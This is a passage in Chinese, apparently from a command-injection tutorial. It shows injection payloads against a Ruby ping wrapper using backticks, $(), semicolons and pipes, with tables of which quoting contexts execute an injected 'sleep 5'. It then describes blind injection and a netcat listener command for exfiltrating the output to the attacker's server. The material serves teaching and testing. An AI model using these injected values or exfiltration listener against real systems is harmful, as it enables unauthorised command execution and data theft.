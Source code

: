 ```
time ruby ping.rb '8.8.8.8`sleep 5`'  
```

  `` 反引号优先级也比较高，也会造成优先替换

```
命令	结果
ping -c 4 8.8.8.8`sleep 5`	sleep命令被执行，命令替换在命令行中。
ping -c 4 “8.8.8.8`sleep 5`”	sleep命令被执行，命令替换在复杂的字符串双引号之间。
ping -c 4 $(echo 8.8.8.8`sleep 5`)	sleep命令被执行，命令替换在使用不同符号时（请参见下面的示例）。
ping -c 4 ’8.8.8.8`sleep 5`’	sleep命令不执行，命令替换在简单字符串中不起作用（单引号之间）。
ping -c 4 `echo 8.8.8.8`sleep 5“	sleep命令不执行，使用相同符号时命令替换不起作用。

time ruby ping.rb '8.8.8.8$(sleep 5)'

time ruby ping.rb '8.8.8.8; sleep 5'
```





通过 分号分割 进行无中断注入

```
命令	结果
ping -c 4 8.8.8.8;sleep 5	sleep命令被执行，命令在命令行中顺序执行。
ping -c 4 “8.8.8.8;sleep 5″	sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 $(echo 8.8.8.8;sleep 5)	sleep命令被执行，排序命令在命令替换中起作用。
ping -c 4 ’8.8.8.8;sleep 5′	sleep命令未被执行， 附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 `echo 8.8.8.8;sleep 5`	sleep命令被执行，排序命令在命令替换中起作用。
```



命令管道  进行无中断注入



```
命令	结果
ping -c 4 8.8.8.8 | sleep 5	sleep命令被执行，管道输出在命令行正常执行。
ping -c 4 “8.8.8.8 | sleep 5″	sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 $(echo 8.8.8.8 | sleep 5)	sleep命令被执行，管道输出在命令替换中起作用。
ping -c 4 ’8.8.8.8 | sleep 5′	sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 `echo 8.8.8.8 | sleep 5`	sleep命令被执行，管道输出在命令替换中起作用。
```



### 常规注入&命令盲注

命令盲注不会在响应中返回命令的输出。

常规的命令注入，将返回响应中执行命令的输出。 



命令盲注输出将不会返回给用户，所以我们需要通过其它方法来提取输出。最直接的方法是将输出offload到你的服务器。我们只需在服务器上执行**nc -l -n -vv -p 80 -k**这条命令，并配置防火墙允许80端口入站连接。 
